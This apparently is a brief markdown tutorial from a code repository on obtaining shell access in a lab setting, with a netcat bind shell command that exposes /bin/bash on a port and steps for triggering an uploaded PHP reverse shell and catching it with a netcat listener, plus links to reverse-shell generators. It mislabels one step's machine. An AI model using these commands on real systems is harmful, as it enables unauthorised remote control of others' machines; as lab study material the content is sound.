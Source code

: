 # various-process-of-getting-shell-access
Here We'll discuss how to get a shell in multiple ways -->

#For LINUX REMOTE PC -->

First assume your ATTACK/HACKER PC IP is 10.10.201.217 & your REMOTE/ATTACKING/TARGET PC IP is 10.10.152.101

Type-1: Simple bind shell using netcat

This is the easiest process. Assume you already has SSH ACCESS and netcat needs to be installed on both the devices.

1. Log in to Remote pc using ssh ID and pass. then type the below command in remote pc terminal-

nc -lvnp 4000 -e /bin/bash (this will create a Bind shell in remote pc and it starts looking for any conenction in it's 4000 port

2. Now in remote pc terminal type

nc 10.10.152.101 4000 (this will connect you to remote pc shell using 4000 port)


#Type 2: using php-reverse-shell 
Assume you have uploaded a revershe shell file to the vulnerable web server by any means. Assume the file name is "shell.php" and it's in /var/www/html folder of 10.10.152.101 ip. Activate this file by typing below command in your browser in your attack machine

http://10.10.152.101/shell.php  (you'll see your browser starts loading and unresponsive, which means the shell has been activated)

Now try the below command in your attacking machine terminal

nc -lvnp <port num>  (here the port number is the port number which you mentioned in your shell.php file)

you can create the shell file from your kali linux /usr/share/webshells folder or you can use https://www.revshells.com/ or https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary to generate and download the file

